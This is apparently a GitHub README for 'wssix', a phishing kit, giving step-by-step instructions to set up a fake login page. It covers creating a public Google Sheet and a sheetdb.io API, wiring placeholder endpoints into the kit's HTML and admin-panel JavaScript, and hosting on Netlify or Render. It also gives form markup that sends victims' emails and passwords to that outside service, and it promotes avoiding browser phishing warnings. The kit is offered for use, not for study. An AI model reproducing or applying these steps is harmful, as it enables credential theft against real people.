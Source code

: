 
# wssix
wssix helps you to create your own phishing tool.

## Benefits of this tool

- Admin panel 
- 24/7 Online 
- No phishing warnings on webpage
- Create unlimited custom phish websites


## **CREATING API key** ...

- First you have to create blank google sheet.
- Make this sheet public and inside this sheet type email and password on first two cells like this :


![](https://raw.githubusercontent.com/Harsh-bash/wssix/aurora/images/screenshot.png)



- Now go to [sheetdb.com](https://sheetdb.io/). Create account and click on create new api and inside this paste your google sheet url ( which we created in first step ).
 
- After this your api key is ready. Api is looks like 

```
https://sheetdb.io/api/v1/xvxbpk*******
```




## **Setup phish page**  ...

- Now, First clone this repository
```bash
git clone https://github.com/Harsh-bash/wssix
```
- Inside **client** folder , Open **index.html** file.

- In this file search this string : 
```bash
https://your-api
```
and replace this with Your API.


## **Setup Admin Panel**  ...
- Now open **Admin-wssix** Folder.
- Goto **/static/js/** folder and open **main.864cb797.js** file.

- In this file search this string :
```bash 
http://your-sheetdb-api
```
and replace with your  **sheetdb** api.

**All done.....**

Now host your phish page.

For hosting : 

- [**Netlify**](https://netlify.com/)
- [**Render**](https://render.com/)
### whenever someone enter creadentials on your page, you can access it on your admin panel. 
### Now! we have our own phishing page

## **How this work!!**

**wssix use [**google sheets**](https://render.com/) for database and [**sheetdb.io**](https://sheetdb.io) for api.**

To send data from your **HTML FORM** to google sheets
- set you form tag **id,method,action and submit** as follow:

```javascript
<form id="sheetdb-form" method="post" action="https://YOUR_SHEETDB_API">
```

- Set **name** in username input tag as follow : 
```javascript
name="data[email]"
```

- Set **name** in password input tag as follow : 
```javascript
name="data[password]"
```

- Set Submit button as follow : 
```javascript
type="submit" name="submit"
```

**Now all data from this form is save in your google sheets and you can access it with this admin panel.**

